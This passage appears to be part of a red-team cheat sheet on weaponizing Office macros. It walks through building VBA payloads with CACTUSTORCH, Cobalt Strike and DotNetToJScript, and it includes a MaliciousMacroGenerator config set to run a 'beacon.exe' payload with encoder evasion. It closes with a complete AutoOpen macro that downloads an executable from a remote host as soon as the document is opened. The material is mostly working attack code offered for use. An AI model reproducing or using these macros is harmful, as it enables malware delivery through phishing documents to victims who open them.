 * https://github.com/mdsecactivebreach/CACTUSTORCH
* https://github.com/tyranid/DotNetToJScript/
* CACTUSTORCH - DotNetToJScript all the things - https://youtu.be/YiaKb8nHFSY
* CACTUSTORCH - CobaltStrike Aggressor Script Addon - https://www.youtube.com/watch?v=_pwH6a-6yAQ

1. Import **.cna** in Cobalt Strike
2. Generate a new VBA payload from the CACTUSTORCH menu
3. Download DotNetToJscript
4. Compile it 
    * **DotNetToJscript.exe** - responsible for bootstrapping C# binaries (supplied as input) and converting them to JavaScript or VBScript
    * **ExampleAssembly.dll** - the C# assembly that will be given to DotNetToJscript.exe. In default project configuration, the assembly just pops a message box with the text "test"
5. Execute **DotNetToJscript.exe** and supply it with the ExampleAssembly.dll, specify the output file and the output type
    ```ps1
    DotNetToJScript.exeExampleAssembly.dll -l vba -o test.vba -c cactusTorch
    ```
6. Use the generated code to replace the hardcoded binary in CactusTorch


## DOCM - MMG with Custom DL + Exec

1. Custom Download in first Macro to "C:\\Users\\Public\\beacon.exe"
2. Create a custom binary execute using MMG
3. Merge both Macro

```ps1
git clone https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator
python MMG.py configs/generic-cmd.json malicious.vba
{
	"description": "Generic command exec payload\nEvasion technique set to none",
	"template": "templates/payloads/generic-cmd-template.vba",
	"varcount": 152,
	"encodingoffset": 5,
	"chunksize": 180,
	"encodedvars": 	{},
	"vars": 	[],
	"evasion": 	["encoder"],
	"payload": "cmd.exe /c C:\\Users\\Public\\beacon.exe"
}
```

```vb
Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Public Function DownloadFileA(ByVal URL As String, ByVal DownloadPath As String) As Boolean
    On Error GoTo Failed
    DownloadFileA = False
    'As directory must exist, this is a check
    If CreateObject("Scripting.FileSystemObject").FolderExists(CreateObject("Scripting.FileSystemObject").GetParentFolderName(DownloadPath)) = False Then Exit Function
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, URL, DownloadPath, 0, 0)
    'If return value is 0 and the file exist, then it is considered as downloaded correctly
    DownloadFileA = (returnValue = 0) And (Len(Dir(DownloadPath)) > 0)
    Exit Function

Failed:
End Function

Sub AutoOpen()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub
```